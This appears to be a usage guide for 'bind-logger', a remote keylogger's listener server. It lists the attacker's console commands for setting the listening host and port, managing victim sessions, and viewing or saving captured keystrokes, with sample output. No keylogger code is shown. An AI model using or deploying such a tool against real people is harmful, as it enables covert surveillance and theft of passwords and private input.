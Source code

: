 
# Server
The server provides the interface the "attacker" will use to receive keylogging data. Clients will make a connection to this server on the IP and Port specified when the listener is started.

**message displayed on server when a client makes a connection**
```
bind-logger:> 

[CONNECTION] > Connection from 127.0.0.1:1069

```

## Commands

**help command** - displays the list of available commands
```
bind-logger:> help

               sessions | List all active sessions.
      logs <session_id> | Display the logs of specified session.
      save <session_id> | Save the logs of specified session to a file.
 set <variable> <value> | Change the value of one of the available options.
                   help | Display this list.
                options | Display a list of variable options.
                  start | Run the keylogger connection listener
                   kill | Stop a specified session/client connection.      
                   exit | Shutdown listener server and close all sessions. 

```

**options command** - displays current state of variable options
```
bind-logger:> options

   LHOST | 127.0.0.1
   LPORT | 6666

```

**set command** - assigns specified value to specified variable
```
bind-logger:> set LPORT 9821

[SUCCESS] > Set LPORT to 9821

```

**start command** - start the keylogger client connection listener
```
bind-logger:> start

[LISTENER] > Listening on 127.0.0.1:6666

```

**sessions command** - list active sessions session_id | client_address:client_port | log_length
```
bind-logger:> sessions
 1 | 127.0.0.1:8464 | 10
 2 | 127.0.0.1:9283 | 152

```

**kill command** - terminate a specified client connection
```
bind-logger:> kill 1

[DISCONNECT] > Session 1 (127.0.0.1:1093) - Logs Saved

```

**logs command** - displays the logs of specified session
```
bind-logger:> logs 1

Keyboard logs from - Session 1 (127.0.0.1:8464)
--------------------------------

hello awpiudhbaw9dghaw-09d87gbaw-uda

```

**save command** - saves the logs of specified session to a file
```
bind-logger:> save 1
[SUCCESS] > Logs written to file log-127.0.0.1_08-24-2021_15-31-11.txt
```

**exit command** - closes all sessions and exits application
```
bind-logger:> exit

[EXIT] > Stopped.

```